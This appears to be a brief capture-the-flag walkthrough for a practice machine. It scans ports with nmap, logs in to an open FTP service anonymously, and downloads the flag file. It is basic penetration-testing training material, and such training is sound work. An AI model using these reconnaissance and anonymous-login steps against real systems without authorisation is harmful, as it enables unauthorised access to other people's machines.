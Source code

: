 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 21/tcp - open - ftp


2. Connect to the machine via "ftp"
```bash
ftp [ip machine]
	Name: Anonymous
	Password: [random]
```
--> **MACHINE PWNED!** 


3. Capture the flag
```bash
ftp --> get flag.txt
```
--> Transfer completed!